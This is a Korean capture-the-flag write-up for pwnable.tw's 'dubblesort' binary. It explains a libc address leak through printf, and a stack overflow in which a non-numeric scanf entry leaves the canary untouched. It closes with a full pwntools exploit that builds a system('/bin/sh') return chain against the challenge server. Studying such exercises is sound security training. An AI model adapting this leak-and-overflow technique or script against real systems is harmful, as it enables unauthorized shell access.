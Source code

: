 # [summary]
- vulnerability index
- scanf("%u",,) error

# analysis
```console
m444ndu@ubuntu:~/pwntw/doubblesort$ checksec dubblesort 
[*] '/home/m444ndu/pwntw/doubblesort/dubblesort'
    Arch:     i386-32-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
    FORTIFY:  Enabled
```
다 걸려있습니당 ㅎㄷㄷ;;

매우 간단쓰한 구조를 취하고 있는 문제입니당. `main` 문에서 숫자 배열을 입력받고, `sorting` 함수에서 크기 순으로 정렬해주는 구조를 가지고 잇습니다.

## main()
```c
__printf_chk(1, "What your name :");
  read(0, &buf, 0x40u);
  __printf_chk(1, "Hello %s,How many numbers do you what to sort :");
  __isoc99_scanf("%u", &sort_num);
  sort_num1 = sort_num;
  if ( sort_num )
  {
    number = num;
    i = 0;
    do
    {
      __printf_chk(1, "Enter the %d number : ");
      fflush(stdout);
      __isoc99_scanf("%u", number);
      ++i;
      sort_num1 = sort_num;
      ++number;
    }
    while ( sort_num > i );
  }
  processing((unsigned int *)num, sort_num1);
  puts("Result :");
```
본 문제의 취약점은 위에서 발생합니다. 먼저, `__printf_chk()` 함수를 통해 스택 공간에 존재하는 값을 **leak** 할 수 있고, 사용자가 입력한 크기만큼 `int 배열`에 계속 입력을 받기때문에 **bof**를 통한 `eip` **컨트롤**이 가능합니다.

`__printf_chk()`를 자세히 살펴보면
```c
.text:000009F1                 mov     [esp+4], eax
.text:000009F5                 mov     dword ptr [esp], 1
.text:000009FC                 call    ___printf_chk
.text:00000A01                 mov     dword ptr [esp+8], 40h ; '@' ; nbytes
.text:00000A09                 lea     esi, [esp+8Ch+buf]
.text:00000A0D                 mov     [esp+4], esi    ; buf
.text:00000A11                 mov     dword ptr [esp], 0 ; fd
.text:00000A18                 call    _read
.text:00000A1D                 mov     [esp+8], esi
.text:00000A21                 lea     eax, (aHelloSHowManyN - 1FA0h)[ebx] ; "Hello %s,How many numbers do you what t"...
.text:00000A27                 mov     [esp+4], eax
.text:00000A2B                 mov     dword ptr [esp], 1
.text:00000A32                 call    ___printf_chk
.text:00000A37                 lea     eax, [esp+18h]
.text:00000A3B                 mov     [esp+4], eax
```
`esi`에는 `buf`의 주소가 들어가 있기 때문에 `[esp+8]` 역시 `buf`의 주소가 들어가 있으며, 따라서 `__printf_chk()`의 두 번째 인자로 `buf`가 `%s`를 통해서 출력된다고 할 수 있습니다. 대충 24바이트를 주면 끝 세자리가 000인 `libc 주소`를 **leak** 할 수 있습니다.


## sorting()
```c
  v9 = __readgsdword(0x14u);
  puts("Processing......");
  sleep(1u);
  if ( sort_num1 != 1 )
  {
    v2 = sort_num1 - 2;
    for ( i = &num[sort_num1 - 1]; ; --i )      // 뒤에서부터
    {
      if ( v2 != -1 )                           // 처음으로 다 갔을 경우
      {
        ptrnum = num;                           // 초기화
        do
        {
          first = *ptrnum;
          second = ptrnum[1];
          if ( *ptrnum > second )
          {
            *ptrnum = second;
            ptrnum[1] = first;
          }
          ++ptrnum;
        }
        while ( i != ptrnum );
        if ( !v2 )
          break;
      }
```
`sorting` 함수에서는 위에서 만든 `int 배열`들을 **오름차순으로 정렬**해줍니다.

대충 오름차순으로 배열을 알맞게 정렬해서 `ret`에 `system("/bin/sh")`를 실행시킬 수 있도록 `chain`을 구성해주면 되는데, 여기서 한가지 난관이 존재합니다.

`canary`의 경우 **leak** 할 수도 없고, 값을 덮어써서도 안됩니다. 해당 값을 그대로 사용하여야 하는데, 여기서 `scanf("%u", buf)`와 관련된 버그를 사용할 수 있습니다. `scanf()`의 경우 지정된 형식문자가 아닌 데이터가 올 경우 입력을 종료해버리는데, 이를 이용하여 `canary`를 건들지 않고 그 값 그대로 사용할 수 있습니다.

`canary`가 어떤 값을 갖느냐에 따라 좀 달라지기는 하지만, 많이 시도해보면 정확한 위치에 `canary`를 위치시킬 수 있습니다..

(before sorting..)
```c
Breakpoint * 0x565a8000+0xab3
pwndbg> x/40wx $ebp-0x80
0xff964918:	0x0000002b	0x00000001	0x00000001	0x00000001
0xff964928:	0x00000001	0x00000001	0x00000001	0x00000001
0xff964938:	0x00000001	0x00000001	0x00000001	0x00000001
0xff964948:	0x00000001	0x00000001	0x00000001	0x00000001
0xff964958:	0x00000001	0xf7e22940	0xf7e22940	0xf7e22940
0xff964968:	0xf7e22940	0xf7e22940	0xf7e22940	0xf7e22940
0xff964978:	0xf7f40e8b	0x30a6cb00	0xf7f983dc	0xff964b0b
0xff964988:	0x565a8b2b	0x00000000	0xf7f98000	0xf7f98000
0xff964998:	0x00000000	0xf7e00637	0x00000001	0xff964a34
0xff9649a8:	0xff964a3c	0x00000000	0x00000000	0x00000000
```

(after sorting..)
```c
Breakpoint * 0x565a8000+0xaf9
pwndbg> x/40wx $ebp-0x80
0xff964918:	0x0000002b	0x00000000	0x00000000	0x00000000
0xff964928:	0x00000000	0x00000000	0x00000000	0x00000001
0xff964938:	0x00000001	0x00000001	0x00000001	0x00000001
0xff964948:	0x00000001	0x00000001	0x00000001	0x00000001
0xff964958:	0x00000001	0x00000001	0x00000001	0x00000001
0xff964968:	0x00000001	0x00000001	0x00000001	0x00000001
0xff964978:	0x00000001	0x30a6cb00	0x565a8b2b	0xf7e00637
0xff964988:	0xf7e22940	0xf7e22940	0xf7e22940	0xf7e22940
0xff964998:	0xf7e22940	0xf7e22940	0xf7e22940	0xf7f40e8b
0xff9649a8:	0xf7f98000	0xf7f98000	0xf7f98000	0xf7f983dc
```


# exploit
```python
#! /usr/bin/python
from pwn import *

r = process('./dubblesort',env={'LD_PRELOAD':'./libc_32.so.6'})
r = remote('chall.pwnable.tw', 10101)
#context.log_level = 'debug'
#gdb.attach(r) # 0xab3 0xaf9

r.sendlineafter('What your name :','A'*24)
r.recvuntil('A'*24)
leak = u32(r.recv(4))
libc_base = leak - 0x0a - 1769472
success('libc_base = '+hex(libc_base))

system_addr = libc_base + 239936
binsh_addr = libc_base + 1412747

log.info('system_addr = '+hex(system_addr))
log.info('binsh_addr = '+hex(binsh_addr))

r.sendlineafter('do you what to sort :','43')

for i in range(16):
    r.sendlineafter('number : ','1')

for i in range(7):
    r.sendlineafter('number : ',str(system_addr))    
r.sendlineafter('number : ',str(binsh_addr))    

r.sendlineafter('number : ','h')    

r.interactive()
```
